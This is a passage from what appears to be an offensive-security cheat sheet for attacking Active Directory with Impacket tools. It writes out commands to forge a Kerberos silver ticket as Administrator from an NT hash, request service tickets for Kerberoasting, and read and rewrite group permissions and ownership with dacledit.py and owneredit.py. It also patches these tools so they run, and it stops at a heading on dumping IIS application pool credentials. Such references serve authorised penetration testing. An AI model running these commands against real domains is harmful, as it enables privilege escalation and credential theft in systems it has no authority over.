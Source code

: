 ```c
$ export KRB5CCNAME=<USERNAME>.ccache
$ impacket-ticketer -nthash C1929E1263DDFF6A2BCC6E053E705F78 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain <DOMAIN> -spn MSSQLSVC/<RHOST>.<DOMAIN> -user-id 500 Administrator
```

**Fixing \[-] exceptions must derive from BaseException**

**Issue**

```c
$ ./GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -k -dc-ip <DOMAIN_CONTROLLER>.<DOMAIN> -no-pass -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] exceptions must derive from BaseException
```

**To fix it**

```c
241         if self.__doKerberos:
242             #target = self.getMachineName()
243             target = self.__kdcHost
```

#### dacledit.py

> https://github.com/fortra/impacket/blob/204c5b6b73f4d44bce0243a8f345f00e308c9c20/examples/dacledit.py

```c
$ python3 dacledit.py <DOMAIN>/<USERNAME>:<PASSWORD> -k -target-dn 'DC=<DOMAIN>,DC=<DOMAIN>' -dc-ip <RHOST> -action read -principal '<USERNAME>' -target '<GROUP>' -debug
```

**Fixing msada\_guids Error**

```c
#from impacket.msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
from msada_guids import SCHEMA_OBJECTS, EXTENDED_RIGHTS
```

Then put the `msada_guids.py` into the same directory as `dacledit.py`

> https://github.com/Porchetta-Industries/CrackMapExec/blob/master/cme/helpers/msada\_guids.py

#### owneredit.py

> https://github.com/fortra/impacket/blob/5c477e71a60e3cc434ebc0fcc374d6d108f58f41/examples/owneredit.py

```c
$ python3 owneredit.py -k '<DOMAIN>/<USERNAME>:<PASSWORD>' -dc-ip <RHOST> -action write -new-owner '<USERNAME>' -target '<GROUP>' -debug
```

### Internet Information Service (IIS)

#### Application Pool Credential Dumping
